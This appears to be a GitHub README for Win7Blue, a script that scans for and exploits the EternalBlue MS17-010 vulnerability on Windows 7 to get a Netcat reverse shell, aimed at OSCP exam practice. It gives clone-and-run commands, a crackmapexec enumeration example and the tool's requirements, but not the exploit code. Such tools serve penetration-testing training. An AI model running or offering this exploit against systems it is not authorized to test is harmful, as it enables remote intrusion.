 # Win7Blue

>Win7Blue is a tool created to scan/exploit the "EternalBlue MS17-010" vulnerability on both architectures (x86/x64) and be able to obtain a normal shell via Netcat (without using Metasploit) and compatible with OSCP examing.

>updated code in 2022 for Python3

![](/screenshots/001.png)

- <kbd>Scan</kbd>

![](/screenshots/002.png)

- <kbd>Exploit</kbd>

![](/screenshots/003.png)

![](/screenshots/004.png)

- <kbd>Use</kbd>

```cmd
root@kali:~# cd ~
root@kali:~# git clone https://github.com/d4t4s3c/Win7Blue.git
root@kali:~# cd Win7Blue
root@kali:~# chmod +x Win7Blue.sh
root@kali:~# ./Win7BLue.sh
```

- <kbd>Enum arch (x86 / x64)</kbd>

```cmd
root@kali:~# crackmapexec smb <target>
SMB   192.168.1.XXX   445   TESTING   [*] Windows 7 Professional 7600 x64 (name:TESTING) (domain:TESTING) (signing:False) (SMBv1:True)
```

- <kbd>Tested On:</kbd>

  * Kali
  * Parrot
  * Debian
  * Ubuntu
  
- <kbd>Requirements:</kbd>

   * Python3
   * Python2.7
   * Msfvenom
   * Impacket
   * Netcat

---
